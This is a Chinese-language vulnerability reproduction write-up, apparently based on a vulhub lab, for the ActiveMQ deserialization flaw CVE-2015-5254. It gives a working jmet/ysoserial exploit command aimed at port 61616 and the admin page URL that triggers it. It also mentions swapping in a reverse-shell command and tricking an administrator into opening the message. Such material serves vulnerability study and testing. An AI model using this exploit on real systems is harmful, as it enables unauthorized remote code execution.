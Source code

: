 （CVE-2015-5254）ActiveMQ 反序列化漏洞
======================================

一、漏洞简介
------------

Apache ActiveMQ
5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java
Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

二、漏洞影响
------------

Apache ActiveMQ 5.13.0之前的5.x版本

三、复现过程
------------

漏洞利用过程如下：

1.  构造（可以使用ysoserial）可执行命令的序列化对象

2.  作为一个消息，发送给目标61616端口

3.  访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/ianxtianxt/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

    java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616

![](resource/(CVE-2015-5254)ActiveMQ反序列化漏洞/media/rId25.png)

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![](resource/(CVE-2015-5254)ActiveMQ反序列化漏洞/media/rId26.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

![](resource/(CVE-2015-5254)ActiveMQ反序列化漏洞/media/rId27.png)

将命令替换成弹shell语句再利用：

![](resource/(CVE-2015-5254)ActiveMQ反序列化漏洞/media/rId28.png)

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

参考链接
--------

> https://vulhub.org/\#/environments/activemq/CVE-2015-5254/
